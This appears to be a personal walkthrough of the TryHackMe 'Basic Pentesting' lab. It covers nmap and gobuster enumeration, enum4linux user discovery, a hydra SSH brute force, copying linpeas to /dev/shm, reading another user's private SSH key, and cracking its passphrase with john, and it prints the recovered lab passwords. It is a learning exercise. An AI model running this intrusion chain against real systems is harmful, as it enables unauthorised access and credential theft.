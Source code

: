 # Basic Pentesting Machine from Try Hack Me

## Nmap
`nmap -sVC <targetipaddress>`

Ports:
22
80
And a couple of samba ports that are open. (139, 445)

## HTTP
First I take a look at the http port and head over to the webpage.

Did not get much from the inspect tool.
Checked for /robots.txt and /admin. 

## gobuster
`gobuster -u http://<targetipaddress> -w /usr/share/SecLists/Discovery/Web-Content/common.txt`

Results:
/.htpasswd            (Status: 403) [Size: 297]
/.htaccess            (Status: 403) [Size: 297]
/.hta                 (Status: 403) [Size: 292]
/development          (Status: 301) [Size: 320] [--> http://10.10.235.114/development/]
/index.html           (Status: 200) [Size: 158]
/server-status        (Status: 403) [Size: 301]

From here I checked out the /development directory 
checked both **dev.txt** and **j.txt**; j.txt we can see J talking to K and we notice that Kk has a weak password that we can use to find and take advantage of. 

Users:
J adn K are the two users we know exist in the machine thus far. Can use samaba to confirm this and get the usernames.

## [samba] (https://github.com/mksiki/notes/blob/main/samba.md)
`/usr/share/enum4linux/enum4linux.pl -a 10.10.235.114 `

Results:
S-1-22-1-1000 Unix User\kay (Local User)
S-1-22-1-1001 Unix User\jan (Local User)

## hydra 
`hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://10.10.235.114`

Results:
[22][ssh] host: 10.10.235.114   login: jan   password: armando

## SSH

While in SSH most of the stuff I did not have permssion to read and nothing of use. 
I did find another directory in /home, **kay**. 
Had a pass.bk files that I did not have permission to **cat**. Other files were the same.

To escalte this procces I will use linpeas.

### LinPEAS (Linux Privilege Escalation Awesome Script)
First I coped the linpeas.sh to **jan** machine. 
`scp ./linpeas.sh jan@<targetipaddress>:/dev/shm`

From Jan's computer:
`cd /dev/shm`
`./linpeas.sh`

Results:
══╣ Possible private SSH keys were found!
/home/kay/.ssh/id_rsa

under **kay** /.ssh directory they have an SSH key that we can use to login using that user. 

`cd /home/kay/.ssh/`
`cat id_rsa`

Copy and paste that into my macine using vim and saving it(`chmod 600 kay_id_rsa`). 

### SSH kay's machine

Prompted to enter passphrase for **kay's** key. 

To figure out this passphrase I used JohnTheRipper. 

John the Ripper can crack an SSH key passphrase by first converting the private key into a 
format John understands using ssh2john and then running a brute-force or wordlist attack.

Save the hash key to a format John undesrtands:
`/usr/share/john/ssh2john.py kay_id_rsa > key.txt`

Run `john --wordlist=/usr/share/wordlists/rockyou.txt key.txt` 

Results:
beeswax          (kay_id_rsa)

`ssh -i kay_id_rsa kay@<targetipaddress>`

Entered passphrase:
`ls`
`cat pass.bak`


